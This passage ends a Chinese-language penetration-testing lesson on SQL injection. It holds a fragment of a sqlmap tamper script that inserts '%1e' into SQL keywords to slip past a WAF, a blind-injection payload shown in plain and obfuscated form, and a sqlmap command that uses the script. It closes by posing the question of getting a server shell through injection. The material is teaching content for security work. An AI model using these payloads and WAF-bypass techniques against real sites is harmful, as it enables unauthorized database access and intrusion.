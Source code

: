```
                    index = randomRange(1, len(word) - 1)
                    str = word[:index] + "%1e" + word[index:]
                result = result.replace(word, str)
return result
```

上述代码会判断输入的字符串是否有 SQL 关键词，如果有就随机在关键词中间插入%1e。

假设原注入语句为：

```
and ascii(substr((select database()),1,1))>64
```

经转换后变成：

```
a%1end a%1escii(sub%1estr((s%1eelect da%1etabase()),1,1))>64
```

最后调用 sqlmap 执行即可：

```
./sqlmap.py -u url --tamper=bypasswaf.py --dbs
```

到这里咱们就完成请求参数的修改了，这是用来绕过 WAF 是非常有效的手段。

### 总结

这一讲我主要介绍了二次注入产生的原理，以及如何利用 SQL 注入漏洞，包括手工注入及使用 sqlmap 实现自动化漏洞。

在个人渗透测试经历中，如果要挖掘和利用 SQL 注入漏洞，那么手工注入的技能是必备的，毕竟 sqlmap 也有扫不出来的情况。一旦能够手工注入成功，哪怕 sqlmap 检测不出来，我们也可以借助 tamper 脚本构造可成功注入的语句，然后再利用 sqlmap 与 tamper 脚本完成自动化的利用。无论如何，sqlmap 一直是 SQL 注入领域最优秀的工具，没有之一，非常值得学习和研究。

那我们如何利用 SQL 注入写入后门，进而拿到服务器的 shell 权限，比如 sqlmap 中的--os-shell 参数使用，还有 MySQL 新特性 secure\_file\_priv 对读写文件的影响呢？欢迎在留言区分享你的看法。

下一讲，我将带你了解如何检测和防御 SQL 注入，到时见~

![Lark20210104-183641.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y786AUgVhAAUYGxCiFok593.png)

